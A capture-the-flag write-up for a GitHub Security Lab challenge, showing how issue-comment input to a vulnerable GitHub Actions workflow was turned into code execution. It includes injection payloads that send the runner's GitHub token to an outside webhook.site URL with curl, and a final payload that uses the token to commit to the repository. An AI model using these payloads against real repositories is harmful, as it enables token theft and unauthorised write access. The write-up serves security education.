 ```yaml
---
title: A call to hacktion, a GitHub workflow CTF
subTitle: GitHub Security Lab, Capture The Flag
category: "ctf"
cover: photo-a-call-to-hacktion-cover.jpg
---
```


## Introduction

"A call to hacktion, a GitHub workflow CTF" is a single level challenge based around GitHub Workflow best practices and an interesting vulnerability pattern that GitHub Security teams have seen out in the real world.

To solve the game, you will have to elevate your privileges from read-only to full write access on a designated game repository!

## My Process

Okay, so we know that this challenge resolves around the GitHub Workflow, the vulnerability is probably in the workflow file.

#### Content of **comment-logger.yml**:

```yaml
name: log and process issue comments
on:
  issue_comment:
    types: [created]

jobs:
  issue_comment:
    name: log issue comment
    runs-on: ubuntu-latest
    steps:
      - id: comment_log
        name: log issue comment
        uses: actions/github-script@v3
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
          COMMENT_ID: ${{ github.event.comment.id }}
        with:
          github-token: "deadc0de"
          script: |
            console.log(process.env.COMMENT_BODY)
            return process.env.COMMENT_ID
          result-encoding: string
      - id: comment_process
        name: process comment
        uses: actions/github-script@v3
        timeout-minutes: 1
        if: ${{ steps.comment_log.outputs.COMMENT_ID }}
        with:
          script: |
            const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
            return ""
          result-encoding: string
```

As it was my first time working with GitHub workflow, I needed to understand how GitHub workflow works. I googled the workflow syntax for github actions to understand the workflow configuration.

Link: https://docs.github.com/en/actions/reference/workflow-syntax-for-github-actions

After reading the syntax, I realised this this workflow will the process describe in the workflow configuration when there is a new comment on an issue. With that knowledge, I figured that I should create a new issue and play around and see the logs on the workflow.

![new-issue](./new-issue.jpeg)

Then I proceed to make a new comment under the newly created issue, "test issue". I noticed that an action was ran after my comment, so I clicked on the action and tried to see the log.

![github-action-log](./github-action-log.jpeg)

So I realised that my comment is a user input that I can control, which may or may not be the vulnerability. As this is my only lead, I went ahead and googled more GitHub actions workflow related stuff, and I came across a GitHub Security Lab blog post about untrusted input.

Link: https://securitylab.github.com/research/github-actions-untrusted-input

```yaml{3,6,11,14}
- id: comment_log
env:
    COMMENT_BODY: ${{ github.event.comment.body }} // I CAN CONTROL
    COMMENT_ID: ${{ github.event.comment.id }}
    script: |
    console.log(process.env.COMMENT_BODY) // MY INPUT, CAN I INJECT CODE HERE?
    return process.env.COMMENT_ID
    result-encoding: string

- id: comment_process
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
with:
    script: |
    const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
    return ""
    result-encoding: string
```

Looking at the workflow file again, I see that my input (comment\_body), is flows to `console.log(process.env.COMMENT_BODY)`. My first initial thought is that I could potential inject javascript code here. To test my theory, I tried inputting quotes, `'` and `"` to see if there is any error generated.

And did it work? Of course that didn't work, it would have been too easy if it did. Afterwards, I thought to try out some of the steps written in the GitHub Security Lab blog post about untrusted input. I tried template injection, but that didn't work as there is no template here.

Sadly, I was stuck here for a long time, just spamming and hoping for an error to pop out. I decided to continue googling GitHub actions/workflow, to see if I could find anything of interest.

Which somehow, I did. I found out that there is something called "workflow command", not sure what that is, I read the website and noticed that a workflow command was passed in a `console.log`. I tried doing the same thing just to see what will happen.

Link: https://docs.github.com/en/actions/reference/workflow-commands-for-github-actions

My input: `::save-state name=processID::12345`. This workflow command create environment variables named STATE\_processID with the value of 12345. I thought that this command could modify the COMMENT\_ID, so I replace "processID" with "COMMENT\_ID". Spoiler alert, it didn't. Why not? That's because this command created an environment variable and prepend "STATE\_".

```yaml
if: ${{ steps.comment_log.outputs.COMMENT_ID }}
```

Back to the workflow file again, I noticed that if I wanted the next step to run, the comment\_log needed to output the COMMENT\_ID, right? *Note: Not really, `steps.comment_log.outputs.COMMENT_ID` is actually just the value of the output from the comment\_log step.*

With that, I'm going to skip my painstaking redundant effort to try to get "COMMENT\_BODY" to be the value of "COMMENT\_ID".

Now, another workflow command is `::set-output name=action_fruit::strawberry`. This workflow command set the value output of "action\_fruit" to "strawberry". Understanding this command, I tried to set the output value of comment\_log, "COMMENT\_ID" to "true" after learning that expression in the `if` statement will be evaluated as an expression.

My input: `::set-output name=COMMENT_ID::true`. Finally, I started to see progress. Quickly, I know that command injection is possible, as this input is treated as an expression as part of the variable declaration.

```javascript
const id = ${{ steps.comment_log.outputs.COMMENT_ID }}
```

![github-action-log-process](./github-action-log-process.jpeg)

Time to print out the environment variables, which contains the GITHUB TOKEN for READ/WRITE access according to the GitHub workflow documentation. My input: `::set-output name=COMMENT_ID::true ;console.log(process.env);`.

![github-action-leak-env](github-action-leak-env.png)

However, the GitHub token is masked, therefore we cannot just see it. Also, later on, I would realised the the token is only valid while the action is being run. Therefore, even if I could copy and token, it would be useless later.

I then used some website to receive request, thinking that I could append the token as part of the URL, just to validate the token exists. My input: `::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync('curl https://webhook.site/REDACTED?token=' + process.env["INPUT_GITHUB-TOKEN"]);`. I did the same for "ACTIONS\_RUNTIME\_TOKEN".

After verifying that the token exists, all I had to do is to make a request using GitHub API with the token to commit to the "README.md" file. I spent quite a few time researching the API but the solution is below.

## My Solution

```javascript
::set-output name=COMMENT_ID::true ;const execSync = require('child_process').execSync; code = execSync(`curl -i --request PUT --url https://api.github.com/repos/${process.env.GITHUB_REPOSITORY}/contents/README.md --header 'authorization: Bearer ${process.env["INPUT_GITHUB-TOKEN"]}' --header 'content-type: application/json' --data '{ "message": "PWNED!!!!", "content": "V2UgYXJlIGluY3JlZGlibHkgc2VjdXJlISBCdXQgaWYgeW91IGRpc2FncmVlLCBwbGVhc2UgZmlsZSBhIFBSIDopCk5PUEUsIEkgRElTQUdSRUVFRSEh", "sha": "959c46eb0fbab9ab5b5bfb279ab6d70f720d1207" }' --fail`);
```

![pwned](./pwned.jpeg)

## Results

GitHub Capture the Flag results: https://github.blog/2021-03-22-github-ctf-results/

Note: _The results website shows a different step taken to solve this challenge, go ahead and read it as I think it's nicer and cleaner solution overall compared to mine._
